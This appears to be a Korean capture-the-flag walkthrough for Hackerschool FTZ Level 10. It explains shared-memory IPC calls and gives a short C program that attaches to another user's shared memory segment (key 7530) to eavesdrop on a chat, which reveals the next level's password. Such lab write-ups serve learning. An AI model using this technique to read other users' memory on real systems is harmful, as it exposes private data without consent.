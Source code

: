 # Hackerschool FTZ Level 10

```
ogin as: level10
level10@192.168.18.131's password:
[level10@ftz level10]$ ls
hint  program  public_html  tmp
[level10@ftz level10]$ cat hint


두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다.
그 대화방은 공유 메모리를 이용하여 만들어졌으며,
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여
level11의 권한을 얻어라.

- 레벨을 완료하셨다면 소스는 지우고 나가주세요.


[level10@ftz level10]$ cd tmp
[level10@ftz tmp]$ vi start.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/shm.h>
#include <sys/ipc.h>
#include <sys/types.h>

int main(void){
        int shmid = shmget(7530, 1024, IPC_EXCL|0660);
        char* shm = shmat(shmid, NULL, 0);
        printf("%s\n", shm);
        shmdt(shm);
        return 0;
}
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
"start.c" 13L, 244C                                           1,1           All
```

```
[level10@ftz tmp]$ gcc -o start start.c
[level10@ftz tmp]$ ./start
멍멍: level11의 패스워드는?
구타: what!@#$?

[level10@ftz tmp]$
```

공유메모리의 사용을 묻는 문제이다. 힌트를 보면

```
두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다.
그 대화방은 공유 메모리를 이용하여 만들어졌으며,
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여
level11의 권한을 얻어라.
```

라고 한다. `start.c` 파일에 코딩을 하여 이 공유 메모리를 읽어왔다.

`shmget` 함수는 `key_t` 값을 이용하여 공유메모리의 ID를 새로 만들거나 얻는 함수이다.

`shmid` 에 공유메모리의 id를 담았으니 다음은 그 주소를 얻기 위하여 `shmat` 함수를 사용한다.

마지막으로 `shmdt` 함수를 사용하여 현제 프로세스에서 공유 메모리 사용을 해제해준다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/shm.h>
#include <sys/ipc.h>
#include <sys/types.h>

int main(void){
        int shmid = shmget(7530, 1024, IPC_EXCL|0660);
        char* shm = shmat(shmid, NULL, 0);
        printf("%s\n", shm);
        shmdt(shm);
        return 0;
}
```